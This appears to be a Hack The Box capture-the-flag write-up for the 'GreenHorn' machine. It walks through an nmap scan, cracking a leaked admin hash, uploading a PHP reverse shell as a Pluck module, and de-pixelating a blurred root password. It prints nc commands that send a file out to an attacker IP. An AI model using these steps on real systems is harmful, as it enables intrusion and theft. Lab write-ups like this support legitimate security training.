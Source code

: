 

# CVSS 3.1 Score:10.0 (High)



### POC: 

I added `greenhorn.htb` to my hosts file.

Start with a basic scan using the command:

`nmap -sC -sV <IP ADRESS>`

`Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 13:31 EDT`
`Nmap scan report for greenhorn.htb (10.10.11.25)`
`Host is up (0.042s latency).`
`Not shown: 996 closed tcp ports (conn-refused)`
`PORT     STATE SERVICE VERSION`
`22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)`
`|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)`
`80/tcp   open  http    nginx 1.18.0 (Ubuntu)`
`|_http-generator: pluck 4.7.18`
`|_http-trane-info: Problem with XML parsing of /evox/about`
`| http-cookie-flags:` 
`|   /:` 
`|     PHPSESSID:` 
`|_      httponly flag not set`
`|_http-server-header: nginx/1.18.0 (Ubuntu)`
`| http-title: Welcome to GreenHorn ! - GreenHorn`
`|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn`
`| http-robots.txt: 2 disallowed entries` 
`|_/data/ /docs/`
`3000/tcp open  ppp?`
`| fingerprint-strings:` 
`|   GenericLines, Help, RTSPRequest:` 
`|     HTTP/1.1 400 Bad Request`
`|     Content-Type: text/plain; charset=utf-8`
`|     Connection: close`
`|     Request`
`|   GetRequest:` 
`|     HTTP/1.0 200 OK`
`|     Cache-Control: max-age=0, private, must-revalidate, no-transform`
`|     Content-Type: text/html; charset=utf-8`
`|     Set-Cookie: i_like_gitea=28fd3ff78614e003; Path=/; HttpOnly; SameSite=Lax`
`|     Set-Cookie: _csrf=_jmeqwQLwRtbXp-DdjMGWTeoAPI6MTcyMjUzMzUxNTM0Nzc0NTg0OQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax`
`|     X-Frame-Options: SAMEORIGIN`
`|     Date: Thu, 01 Aug 2024 17:31:55 GMT`
`|     <!DOCTYPE html>`
`|     <html lang="en-US" class="theme-auto">`
`|     <head>`
`|     <meta name="viewport" content="width=device-width, initial-scale=1">`
`|     <title>GreenHorn</title>`
`|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX`
`|   HTTPOptions:` 
`|     HTTP/1.0 405 Method Not Allowed`
`|     Allow: HEAD`
`|     Allow: HEAD`
`|     Allow: GET`
`|     Cache-Control: max-age=0, private, must-revalidate, no-transform`
`|     Set-Cookie: i_like_gitea=77b36d9374a96fa1; Path=/; HttpOnly; SameSite=Lax`
`|     Set-Cookie: _csrf=1_4kaR4JlNAkYnsmReDtYOIGyGI6MTcyMjUzMzUyMjA3MDUzNDAxMg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax`
`|     X-Frame-Options: SAMEORIGIN`
`|     Date: Thu, 01 Aug 2024 17:32:02 GMT`
`|_    Content-Length: 0`
`8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)`
`1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :`
`SF-Port3000-TCP:V=7.94SVN%I=7%D=8/1%Time=66ABC689%P=x86_64-pc-linux-gnu%r(`
<.............>
`SF:lain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Req`
`SF:uest");`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 136.32 seconds`

We have three open ports:

- 80/tcp open http
- 22/tcp open ssh
- 3000/tcp open ppp?

On port 80, we found a website we can visit.

By enumeration, we found a login page:

![Alt text](Pasted image 20240801202355.png)


We attempted to enumerate the admin password but found there is a lock for brute force attempts.


![](Pasted image 20240801202728.png)


![[Pasted image 20240801202835.png]]


We then checked port 3000:

`http://greenhorn.htb:3000/`

![[Pasted image 20240801202955.png]]



![[Pasted image 20240801203107.png]]

![[Pasted image 20240801203143.png]]



![[Pasted image 20240801203256.png]]



![[Pasted image 20240801203501.png]]

By exploring, we found admin files.

We checked the login check files and found the password stored in the `$ww` variable. We located the password hash and determined it was using the SHA-512 hash algorithm. Using `john` and `rockyou.txt`, we cracked the password to `iloveyou1`.

We then logged in to the admin panel.


![[Pasted image 20240801205631.png]]

Next, we navigated to the "Manage Modules" section and installed a module. We created a reverse shell PHP file, zipped it, and uploaded it. By listening on port 1111, we gained access to the system.

![[Pasted image 20240801210023.png]]

![[Pasted image 20240801210441.png]]

![[Pasted image 20240801210609.png]]
We made the shell more interactive and searched for files owned by the user "junior". We attempted to switch users using the previously found password and successfully accessed the user files.

![[Pasted image 20240801212100.png]]

![[Pasted image 20240801212200.png]]

Finally, we checked other files in the user folder and found a PDF document named "Using OpenVAS.pdf". We used `nc` to transfer the file and discovered the root password, which was blurred. Using the tool `depix` to de-pixelate the image, we retrieved the root password and gained root access.

`junior@greenhorn:~$ nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'  
`nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'`

`nc -lvp 1234 > 'Using OpenVAS.pdf'`  
`Listening on 0.0.0.0 1234`  
`Connection received on greenhorn.htb 46338``
``
![[Pasted image 20240801220319.png]]


![[Pasted image 20240801220008.png]]
